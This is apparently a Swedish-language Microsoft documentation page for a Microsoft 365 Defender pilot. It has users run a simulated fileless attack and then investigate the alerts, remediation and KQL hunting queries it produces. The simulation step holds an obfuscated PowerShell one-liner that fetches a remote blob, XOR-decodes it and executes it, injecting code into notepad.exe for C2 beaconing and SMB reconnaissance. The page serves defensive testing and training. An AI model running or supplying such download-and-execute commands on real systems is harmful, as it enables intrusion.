




# <a name="run-your-microsoft-365-defender-attack-simulations"></a>Köra din Microsoft 365 Defender attack simuleringar

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]


|[](m365d-pilot-plan.md)<br/>[Planering](m365d-pilot-plan.md)|[](prepare-m365d-eval.md)<br/>[Förberedelse](prepare-m365d-eval.md)|<br/>Simulera attack|[](m365d-pilot-close.md)<br/>[Stäng och sammanfatta](m365d-pilot-close.md)|
|--|--|--|--|
|||*Du är här!*||

Du befinner dig för närvarande i simuleringsfasen av attacken.

När pilotmiljön har förberetts är det dags att testa Microsoft 365 Defender och automatiserad undersökning och åtgärder. Vi hjälper dig att simulera en avancerad attack som använder avancerade tekniker för att dölja det. Attacken räknar upp öppna SMB-sessioner (Server Message Block) på domänkontrollanter och hämtar de senaste IP-adresserna för användarnas enheter. Den här kategorin av attacker inkluderar vanligtvis inte filer som släppts på offerts enhet – de förekommer endast i minnet. De "boar av landet" genom att använda befintliga system- och administrationsverktyg och mata in kod i systemprocesser för att dölja körningen, ett sådant beteende gör att de kan avkoda identifieringen och finnas kvar på enheten.

I den här simuleringen börjar vårt exempelscenario med ett PowerShell-skript. En användare kan bli lurad att köra ett skript. Eller så kan skriptet köras från en fjärranslutning till en annan dator från en tidigare smittad enhet – då försöker attackeraren flytta sig fritt i nätverket. Det kan vara svårt att identifiera de här skripten eftersom administratörer också ofta kör skript på distans för att utföra olika administrativa aktiviteter.


Under simuleringen inkodar attacken skalkod i en till synes process. För scenariot krävs att du använder notepad.exe. Vi valde den här processen för simuleringen, men attacker är mer troliga att de är mål för en långvariga systemprocess, till exempel svchost.exe. Shellcode-koden fortsätter sedan att kontakta attackerens kommando- och kontrollserver (C2) för att få instruktioner om hur du kan fortsätta. Skriptet försöker köra reconnaissance-frågor mot domänkontrollanten (DC). Med hjälp av reconnaissance kan en attackerare få information om den senaste användarinloggningsinformationen. När attackerarna har den här informationen kan de flytta sig i nätverket för att komma till ett visst känsligt konto

> [!IMPORTANT]
> För bästa resultat följer du attackberäkningsanvisningarna så nära som möjligt.

## <a name="simulation-environment-requirements"></a>Simuleringsmiljökrav

Eftersom du redan har konfigurerat pilotmiljön under förberedelsefasen bör du kontrollera att du har två enheter för det här scenariot: en testenhet och en domänkontrollant.

1. Kontrollera att klientorganisationen [har aktiverat Microsoft 365 Defender](m365d-enable.md#confirm-that-the-service-is-on).

2. Kontrollera konfigurationen av testdomänkontrollanten:

   - Enheten körs med Windows Server 2008 R2 eller en senare version.
   - Testdomänkontrollanten till [Microsoft Defender för identitet och](/azure/security-center/security-center-wdatp) aktivera [fjärrhantering](/windows-server/administration/server-manager/configure-remote-management-in-server-manager).
   - Kontrollera att [microsoft Defender för identitet och Microsoft Cloud App Security har](/cloud-app-security/mdi-integration) aktiverats.
   - En testanvändare skapas på din domän – ingen administratörsbehörighet krävs.

3. Verifiera testenhetskonfigurationen:

   1. Enheten körs med Windows 10 version 1903 eller senare.

   1. Testenheten är ansluten till testdomänen.

   1. [Aktivera Windows Defender Antivirus](/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features). Om du har problem med att aktivera Windows Defender Antivirus kan du gå till den här [felsökningsavsnittet](/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy).

   1. Kontrollera att testenheten är [onboarded till Microsoft Defender för Endpoint).](/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints)

Om du använder en befintlig klientorganisation och implementerar enhetsgrupper skapar du en dedikerad enhetsgrupp för testenheten och pushar den till den översta nivån i konfigurations-UX.

## <a name="run-the-attack-scenario-simulation"></a>Simulera attackscenariot

Så här kör du simuleringen av attackscenariot:

1. Logga in på testenheten med testanvändarkontot.

2. Öppna Windows PowerShell testenhet.

3. Kopiera följande simuleringsskript:

   ```powershell
   [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
   = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
   -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
   $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
   $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
   ```

   > [!NOTE]
   > Om du öppnar dokumentet i en webbläsare kan du stöta på problem med att kopiera hela texten utan att förlora vissa tecken eller införa extra radbrytningar. Hämta dokumentet och öppna det i Adobe Reader.

4. När du uppmanas till det klistrar du in och kör det kopierade skriptet.

> [!NOTE]
> Om du kör PowerShell med fjärrskrivbordsprotokoll (RDP) använder du kommandot Skriv urklippstext i RDP-klienten eftersom **metoden CTRL-V** för snabbtangent eller högerklicks-inklistring kanske inte fungerar. Senaste versioner av PowerShell accepterar inte heller den metoden ibland. Du kan behöva kopiera till Anteckningar i minnet först, kopiera den i den virtuella datorn och sedan klistra in den i PowerShell.

Några sekunder senare <i>notepad.exe</i> den. En simulerad attackkod matas in i notepad.exe. Låt den automatiskt genererade Anteckningar instansen vara öppen för hela scenariot.

Den simulerade attackkoden försöker kommunicera till en extern IP-adress (som återspelar C2-servern) och försöker sedan förena domänkontrollanten via SMB.

När skriptet har slutförts visas ett meddelande på PowerShell-konsolen.

```console
ran NetSessionEnum against [DC Name] with return code result 0
```

Om du vill se hur funktionen Automatiserat incidenter och svar fungerar i praktiken behåller du notepad.exe processen öppen. Automatiserad incident och svar stoppar processen Anteckningar svar.

## <a name="investigate-an-incident"></a>Undersöka en händelse

> [!NOTE]
> Innan vi går igenom den här simuleringen tittar du på följande video för att se hur incidenthantering hjälper dig att samla relaterade aviseringar som en del av undersökningsprocessen, var du kan hitta dem i portalen och hur det kan hjälpa dig i dina säkerhetsåtgärder:

> [!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bzwz?]

När du växlar till SOC-analytiker kan du börja undersöka attacken i Microsoft 365 Säkerhetscenter-portalen.

1. Öppna [incidentkön Microsoft 365 Säkerhetscenter-portalen](https://security.microsoft.com/incidents) från valfri enhet.

2. Gå till **Incidenter** på menyn.

    

3. Den nya incidenten för den simulerade attacken visas i incidentkön.

    

### <a name="investigate-the-attack-as-a-single-incident"></a>Undersök attacken som en enda incident

Microsoft 365 Defender korrelerar analyser och aggregerar alla relaterade aviseringar och undersökningar från olika produkter till en enda incidentenhet. På så sätt Microsoft 365 Defender en bredare attackhistoria, så att SOC-analytiker kan förstå och reagera på komplexa hot.

Aviseringarna som genererades under den här simuleringen är associerade med samma hot och därför aggregeras automatiskt som en enda incident.

Så här visar du händelsen:

1. Gå till **kön Incidenter.**

   

2. Markera det senaste objektet genom att klicka på cirkeln till vänster om incidentnamnet. På en sidopanel visas ytterligare information om händelsen, inklusive alla relaterade aviseringar. Varje incident har ett unikt namn som beskriver den baserat på attributen för de aviseringar som den inkluderar.

   

   Aviseringarna som visas på instrumentpanelen kan filtreras baserat på tjänstresurser: Microsoft Defender för identitet, Microsoft Cloud App Security, Microsoft Defender för slutpunkt, Microsoft 365 Defender och Microsoft Defender för Office 365.

3. Välj **Öppna incidentsida** om du vill ha mer information om incidenten.

   På sidan **Incident** ser du alla aviseringar och information om händelsen. Informationen omfattar de enheter och tillgångar som ingår i aviseringen, varningens identifieringskälla (Microsoft Defender för identitet, Identifiering och åtgärd på slutpunkt) och orsaken till att de länkades ihop. När du granskar incidentvarningslistan visas attackens förlopp. Från den här vyn kan du se och undersöka enskilda aviseringar.

   Du kan också klicka **på Hantera** incident i den högra menyn för att tagga händelsen, tilldela den till dig själv och lägga till kommentarer.

   

   

### <a name="review-generated-alerts"></a>Granska genererade aviseringar

Vi tittar på några av de aviseringar som genererades vid en simulerad attack.

> [!NOTE]
> Vi går bara igenom några få av de aviseringar som genererats under den simulerade attacken. Beroende på vilken version av Windows och vilka Microsoft 365 Defender-produkter som körs på testenheten kan du se fler aviseringar som visas i en något annan ordning.


#### <a name="alert-suspicious-process-injection-observed-source-microsoft-defender-for-endpoint-edr"></a>Avisering: Observerad processinjicering av misstänkt process (källa: Microsoft Defender för Identifiering och åtgärd på slutpunkt)

Avancerade attacker använder avancerade och avancerade metoder för att finnas kvar i minnet och dölja för identifieringsverktyg. En vanlig teknik är att arbeta från en betrodd systemprocess i stället för en skadlig körbar fil, vilket gör det svårt att identifiera verktyg och säkerhetsåtgärder för att upptäcka den skadliga koden.

För att SOC-analytiker ska kunna fånga de här avancerade attackerna tillhandahåller djupminnessensorer i Microsoft Defender för Endpoint vår molntjänst med god insyn i en mängd olika igenkänningstekniker med olika igenkänningstekniker. På följande bild visas hur Defender för Slutpunkt upptäckte och avisering om försök att mata in kod för <i> attnotepad.exe</i>.


#### <a name="alert-unexpected-behavior-observed-by-a-process-run-with-no-command-line-arguments-source-microsoft-defender-for-endpoint-edr"></a>Varning: Oväntat beteende som observerats av en process som körs utan kommandoradsargument (Källa: Microsoft Defender för slutpunkt Identifiering och åtgärd på slutpunkt)

Microsoft Defender för slutpunktsidentifiering riktar ofta in sig på det vanligaste attributet för en attackteknik. Den här metoden säkerställer att varaktigheten ökar för att attacker ska kunna växla till nyare taktiker.

Vi använder storskaliga utbildningsalgoritmer för att etablera normalt beteende i vanliga processer i en organisation och globalt och se upp när dessa processer visar avvikande beteenden. Dessa avvikande beteenden anger ofta att onenelig kod infördes och körs i en annars betrodd process.

För det här scenariot har <i> processennotepad.exe</i> onormalt beteende, vilket innefattar kommunikation med en extern plats. Det här resultatet är oberoende av den specifika metod som används för att introducera och köra skadlig kod.

> [!NOTE]
> Eftersom den här aviseringen är baserad på maskininlärningsmodeller som kräver ytterligare backend-bearbetning kan det ta lite tid innan den här aviseringen visas i portalen.

Observera att aviseringsinformationen omfattar den externa IP-adressen – en indikator som du kan använda som pivot för att utvidga undersökningen.

Välj IP-adressen i aviseringsprocessträdet för att visa sidan med IP-adressinformation.


På följande bild visas sidan med den valda information om IP-adress (du klickar på IP-adressen i aviseringsprocessträdet).


#### <a name="alert-user-and-ip-address-reconnaissance-smb-source-microsoft-defender-for-identity"></a>Avisering: Användar- och IP-adressre reconnaissance (SMB) (Källa: Microsoft Defender för identitet)

Uppräkning med SMB-protokollet (Server Message Block) gör det möjligt för attacker att hämta inloggningsinformation för senaste användare som hjälper dem att flytta mellan nätverk för att komma åt ett visst känsligt konto.

Vid den här identifieringen utlöses en avisering när SMB-sessionuppräkning körs mot en domänkontrollant.


### <a name="review-the-device-timeline-microsoft-defender-for-endpoint"></a>Granska tidslinjen för enheten [Microsoft Defender för Slutpunkt]

När du utforskat de olika aviseringarna i den här incidenten går du tillbaka till sidan som du undersöker tidigare. Välj fliken **Enheter** på incidentsidan om du vill granska enheterna som är inblandade i den här händelsen enligt uppgifter från Microsoft Defender för Endpoint och Microsoft Defender för identitet.

Välj namnet på enheten där attacken utfördes för att öppna entitetssidan för den specifika enheten. På den sidan kan du se aviseringar som utlöstes och relaterade händelser.

Välj fliken **Tidslinje** för att öppna enhetens tidslinje och visa alla händelser och beteenden som observerats på enheten i kronologisk ordning, mellankopplade med aviseringarna upphöjda.


Om du utökar några av de mer intressanta beteendenna får du användbar information, till exempel processträd.

Du kan till exempel rulla nedåt tills du hittar den aviseringshändelse **som misstänkt processinställing har observerats.** Väljpowershell.exe som matas **in notepad.exe-processhändelsen** nedanför den för att visa hela  processträdet för det här beteendet i diagrammet Händelseenheter i sidofönstret. Använd sökfältet för filtrering om det behövs.



### <a name="review-the-user-information-microsoft-cloud-app-security"></a>Granska användarinformationen [Microsoft Cloud App Security]

På incidentsidan väljer du fliken **Användare för** att visa listan över användare som är inblandade i attacken. Tabellen innehåller ytterligare information om varje användare, inklusive varje användares **undersökningsprioriteringspoäng.**

Välj användarnamnet för att öppna användarens profilsida där vidare undersökning kan genomföras. [Läs mer om att undersöka riskfyllda användare.](/cloud-app-security/tutorial-ueba#identify)


## <a name="automated-investigation-and-remediation"></a>Automatiserad undersökning och åtgärder

> [!NOTE]
>Innan vi går igenom den här simuleringen kan du se följande video för att bekanta dig med vad automatiserat självrektan är, var du hittar det i portalen och hur det kan vara till hjälp i dina säkerhetsåtgärder:

> [!VIDEO https://www.microsoft.com/en-us/videoplayer/embed/RE4BzwB]

Gå tillbaka till incidenten i Microsoft 365 Säkerhetscenter-portalen. På **fliken** Undersökningar på sidan **Incident** visas de automatiserade undersökningar som utlöstes av Microsoft Defender för identitet och Microsoft Defender för slutpunkt. I skärmbilden nedan visas endast den automatiska undersökning som utlösts av Defender för Endpoint. Som standard åtgärdar Defender för Slutpunkt automatiskt artefakterna som hittats i kön, vilket kräver åtgärd.


Markera varningsmeddelandet som utlöste en undersökning för att öppna **informationssidan** Undersökning. Du ser följande information:

- En avisering som utlöste den automatiska undersökningen.
- Påverkade användare och enheter. Om indikatorerna finns på ytterligare enheter visas även dessa ytterligare enheter.
- Lista med bevis. Enheter som hittades och analyserades, till exempel filer, processer, tjänster, drivrutiner och nätverksadresser. Dessa enheter analyseras för möjliga relationer till aviseringen och klassificeras som envärd eller skadlig.
- Hot hittades. Kända hot som påträffas under undersökningen.

> [!NOTE]
> Beroende på tidpunkten kan den automatiska undersökningen fortfarande köras. Vänta några minuter på att processen slutförs innan du samlar in och analyserar bevisen och granskar resultaten. Uppdatera **informationssidan Undersökning** för att få de senaste resultaten.


Under den automatiska undersökningen identifierade Microsoft Defender för Endpoint notepad.exe-processen, som matades in som en av artefakterna som kräver åtgärd. Defender för Slutpunkt stoppar automatiskt den misstänkta processinjiceringen som en del av den automatiska åtgärd.

Du kan se <i>notepad.exe</i> bort från listan med körningsprocesser på testenheten.

## <a name="resolve-the-incident"></a>Lösa problemet

Stäng händelsen när undersökningen har slutförts och bekräftat att du vill åtgärda den.

Välj **Hantera incident**. Ange statusen Lös **incidenten** och välj relevant klassificering.

När problemet har lösts stängs alla associerade aviseringar i Microsoft 365 säkerhetscenter och i relaterade portaler.


Då avslutas attackberäkningen för incidenthantering och automatiserad undersökning och åtgärdsscenarier. Nästa simulering tar dig via förebyggande hot efter potentiellt skadliga filer.

## <a name="advanced-hunting-scenario"></a>Avancerat sökningsscenario

> [!NOTE]
> Innan vi går igenom simuleringen tittar du på följande video för att förstå avancerade koncept för sökning, se var du hittar det i portalen och veta hur det kan hjälpa dig i dina säkerhetsåtgärder:

> [!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bp7O]

### <a name="hunting-environment-requirements"></a>Krav på produktionsmiljö

Det krävs en enda intern postlåda och enhet för det här scenariot. Du måste också ha ett externt e-postkonto för att skicka testmeddelandet.

1. Kontrollera att klientorganisationen har [aktiverat Microsoft 365 Defender](m365d-enable.md#confirm-that-the-service-is-on).
2. Identifiera en målpostlåda som ska användas för att ta emot e-post.
    a. Den här postlådan måste övervakas av Microsoft Defender för Office 365 b. Enheten från krav 3 måste få åtkomst till den här postlådan
3. Konfigurera en testenhet: a. Kontrollera att du använder Windows 10 version 1903 eller senare.
    b. Anslut testenheten till testdomänen.
    c. [Aktivera Windows Defender Antivirus](/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features). Om du har problem med att aktivera Windows Defender Antivirus kan du gå till det [här avsnittet om felsökning.](/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy)
    d. [Gå till Microsoft Defender för Slutpunkt](/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).

### <a name="run-the-simulation"></a>Kör simuleringen

1. Från ett externt e-postkonto skickar du ett e-postmeddelande till postlådan som identifierats i steg 2 i avsnittet för testmiljökrav. Inkludera en bifogad fil som tillåts genom befintliga principer för e-postfilter. Filen behöver inte vara skadlig eller körbar. Föreslagna filtyper är <i>.pdf, </i> <i>.exe</i> (om det är tillåtet) Office dokument, till exempel en Word-fil.
2. Öppna det skickade e-postmeddelandet från enheten som konfigurerats enligt definitionen i steg 3 i avsnittet för testmiljökrav. Öppna den bifogade filen eller spara den på enheten.

#### <a name="go-hunting"></a>Jaga

1. Öppna security.microsoft.com portalen.

2. Gå till **Sökning > Avancerad sökning.**

   

3. Skapa en fråga som börjar genom att samla e-posthändelser.

   1. I frågefönstret väljer du Nytt.

   1. Dubbelklicka på tabellen EmailEvents i schemat.

      ```console
      EmailEvents
      ```

   1. Ändra tidsperioden till de senaste 24 timmarna. Anta att e-postmeddelandet du skickade när du körde simuleringen ovan har varit under de senaste 24 timmarna, annars kan du ändra tidsperioden.

      

   1. Kör frågan. Du kan få många resultat beroende på pilotens miljö.

      > [!NOTE]
      > Se nästa steg för filtreringsalternativ för att begränsa dataretur.

      

        > [!NOTE]
        > Avancerad sökning visar frågeresultat som tabelldata. Du kan också välja att visa data i andra formattyper, till exempel diagram.

   1. Titta på resultaten och se om du kan identifiera e-postmeddelandet som du öppnade. Det kan ta upp till 2 timmar innan meddelandet dyker upp i avancerad sökning. Om e-postmiljön är stor och det finns många resultat kan du använda **alternativet Visa filter för** att hitta meddelandet.

      I exemplet skickades e-postmeddelandet från ett Yahoo-konto. Klicka på **+** ikonen bredvid **yahoo.com** under avsnittet SenderFromDomain och klicka sedan på **Apply** (använd) för att lägga till den valda domänen i frågan. Använd den domän eller det e-postkonto som användes för att skicka testmeddelandet i steg 1 i Kör simuleringen för att filtrera resultatet. Kör frågan igen för att få ett mindre resultat inställt för att verifiera att meddelandet från simuleringen visas.

      

      ```console
      EmailEvents
      | where SenderMailFromDomain == "yahoo.com"
      ```

   1. Klicka på de resulterande raderna från frågan så att du kan granska posten.

      

4. Nu när du har kontrollerat att du kan se e-postmeddelandet kan du lägga till ett filter för de bifogade filerna. Fokusera på alla e-postmeddelanden med bifogade filer i miljön. I det här scenariot ska du fokusera på inkommande e-postmeddelanden, inte på dem som skickas från din miljö. Ta bort eventuella filter som du har lagt till för att hitta meddelandet och lägg till "| där **AttachmentCount > 0** och **EmailDirection**  ==  **"Inbound""**

   I följande fråga visas resultatet med en kortare lista än den första frågan för alla e-posthändelser:

   ```console
   EmailEvents
   | where AttachmentCount > 0 and EmailDirection == "Inbound"
   ```

5. Ta sedan med information om den bifogade filen (t.ex. filnamn, hash-filer) i resultatuppsättningen. Det gör du genom att koppla **tabellen EmailAttachmentInfo.** De gemensamma fälten att använda för att ansluta, i det här fallet **NetworkMessageId** och **RecipientObjectId.**

   Följande fråga innehåller även ytterligare en rad | **project-rename EmailTimestamp=Timestamp**" som hjälper till att identifiera vilken tidsstämpel som var relaterad till e-postmeddelandet kontra tidsstämplar relaterade till filåtgärder som du ska lägga till i nästa steg.

   ```console
   EmailEvents
   | where AttachmentCount > 0 and EmailDirection == "Inbound"
   | project-rename EmailTimestamp=Timestamp
   | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
   ```

6. Använd sedan **SHA256-värdet** från tabellen **EmailAttachmentInfo** för att hitta **DeviceFileEvents** (filåtgärder som hände på slutpunkten) för den hashtaggen. Det vanliga fältet är SHA256-hash för den bifogade filen.

   Den resulterande tabellen innehåller nu information från slutpunkten (Microsoft Defender för slutpunkt), till exempel enhetsnamn, vilken åtgärd som gjordes (i detta fall filtrerad för att endast inkludera FileCreated-händelser) och var filen lagrades. Kontonamnet som är kopplat till processen inkluderas också.

   ```console
   EmailEvents
   | where AttachmentCount > 0 and EmailDirection == "Inbound"
   | project-rename EmailTimestamp=Timestamp
   | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
   | join DeviceFileEvents on SHA256
   | where ActionType == "FileCreated"
   ```

   Nu har du skapat en fråga som identifierar alla inkommande e-postmeddelanden där användaren öppnade eller sparade den bifogade filen. Du kan också förfina den här frågan för att filtrera fram specifika avsändardomäner, filstorlekar, filtyper och så vidare.

7. Funktioner är en särskild typ av koppling, som gör att du kan hämta mer TI-data om en fil, t.ex. dess utforskar- och utfärdareinformation. Om du vill ha mer information om filen kan du använda funktionen **FileProfile()berikande:**

    ```console
    EmailEvents
    | where AttachmentCount > 0 and EmailDirection == "Inbound"
    | project-rename EmailTimestamp=Timestamp
    | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
    | join DeviceFileEvents on SHA256
    | where ActionType == "FileCreated"
    | distinct SHA1
    | invoke FileProfile()
    ```

#### <a name="create-a-detection"></a>Skapa en identifiering

När du har skapat en fråga som identifierar  information som du vill få aviseringar om om de skulle hända i framtiden, kan du skapa en anpassad identifiering från frågan.

Anpassade identifieringar kör frågan enligt den frekvens du har angett, och resultaten av frågorna skapar säkerhetsvarningar baserat på de påverkade tillgångar du väljer. Dessa aviseringar är korrelerade till incidenter och kan vara triangelde som alla andra säkerhetsvarningar som genereras av någon av produkterna.

1. Ta bort rad 7 och 8 på frågesidan som lades till i steg 7 i Gå i instruktionerna för sökning och klicka **på Skapa identifieringsregel.**

   

   > [!NOTE]
   > Om du **klickar på Skapa identifieringsregel** och frågan innehåller syntaxfel sparas inte identifieringsregeln. Dubbelkolla frågan för att säkerställa att det inte uppstår några fel.

2. Fyll i de obligatoriska fälten med informationen som gör att säkerhetsteamet förstår varningen, varför den skapades och vilka åtgärder du förväntar dig att de ska vidta.

   

   Se till att du fyller i fälten tydligt för att ge nästa användare ett välgrundat beslut om aviseringen för identifieringsregeln

3. Välj vilka enheter som påverkas i den här aviseringen. I det här fallet väljer du **Enhet** och **postlåda.**

   

4. Fastställ vilka åtgärder som ska vidtas om aviseringen utlöses. I så fall kör du en antivirussökning, men andra åtgärder kan också vidtas.

   

5. Välj omfattning för aviseringsregeln. Eftersom den här frågan involverar enheter är enhetsgrupper relevanta i den här anpassade identifieringen enligt Microsoft Defender för Slutpunktskontext. När du skapar en anpassad identifiering som inte inkluderar enheter som påverkade enheter gäller inte omfattningen.

   

   För det här pilottestet kanske du vill begränsa regeln till en delmängd av testenheterna i produktionsmiljön.

6. Välj **Skapa**. Välj sedan **Anpassade identifieringsregler** i navigeringsfönstret.

   

   

   På den här sidan kan du välja identifieringsregel, vilket öppnar en informationssida.

   

### <a name="additional-advanced-hunting-walk-through-exercises"></a>Mer avancerad genomgångs övningar för sökning

I följande webbsändningar får du lära dig mer om avancerad sökning i Microsoft 365 Defender, där du får hjälp med att skapa korsfrågor, pivotera till enheter och skapa anpassade identifieringar och åtgärdsåtgärder.

> [!NOTE]
> Förbered dig med ditt GitHub konto för att köra frågor om testlabb.

|Title|Beskrivning|Ladda ned MP4|Titta på YouTube|CSL-fil att använda|
|---|---|---|---|---|
|Avsnitt 1: Grunderna i KQL|Vi går in på grunderna i avancerade sökfunktioner i Microsoft 365 Defender. Läs mer om tillgängliga avancerade data för sökning och grundläggande KQL-syntax och -operatorer.|[MP4](https://aka.ms/MTP15JUL20_MP4)|[YouTube](https://youtu.be/0D9TkGjeJwM)|[Avsnitt 1: CSL-fil i Git](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%201%20-%20KQL%20Fundamentals.csl)|
|Avsnitt 2: Kopplingar|Vi fortsätter att lära oss mer om data inom avancerad sökning och hur du kan koppla ihop tabeller. Lär dig mer om inre, yttre, unika och halvseparerade kopplingar och nyanserna hos standardkopplingen i Kusto innerunique.|[MP4](https://aka.ms/MTP22JUL20_MP4)|[YouTube](https://youtu.be/LMrO6K5TWOU)|[Avsnitt 2: CSL-fil på Git](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%202%20-%20Joins.csl)|
|Avsnitt 3: Sammanfatta, pivotera och visualisera data|Nu när vi kan filtrera, manipulera och sammanfoga data är det dags att börja sammanfatta, mäta, pivotera och visualisera. I det här avsnittet tar vi upp sammanfattningsoperatorn och en del av beräkningarna du kan utföra när du börjar med fler tabeller i det avancerade sökschemat. Vi omvandlar datamängderna till diagram som kan förbättra analysen.|[MP4](https://aka.ms/MTP29JUL20_MP4)|[YouTube](https://youtu.be/UKnk9U1NH6Y)|[Avsnitt 3: CSL-fil i Git](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%203%20-%20Summarizing%2C%20Pivoting%2C%20and%20Joining.csl)|
|Avsnitt 4: Vi jagar! Tillämpa KQL på incidentspårning|Dags att spåra vissa attacker! I det här avsnittet använder vi vår förbättrade förståelse av KQL och avancerad sökning i Microsoft 365 Defender för att spåra en attack. Lär dig några tips som används för att spåra attackersaktivitet, till exempel ABCS för cybersäkerhet och hur de tillämpas på incidentsvar.|[MP4](https://aka.ms/MTP5AUG20_MP4)|[YouTube](https://youtu.be/2EUxOc_LNd8)|[Avsnitt 4: CSL-fil i Git](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%204%20-%20Lets%20Hunt.csl)|
|

## <a name="next-step"></a>Nästa steg

| <br>[Slutfas och sammanfattningsfas](m365d-pilot-close.md)|Analysera dina Microsoft 365 Defender pilotresultat, presentera dem för dina intressenter och ta nästa steg.
|:-----|:-----|
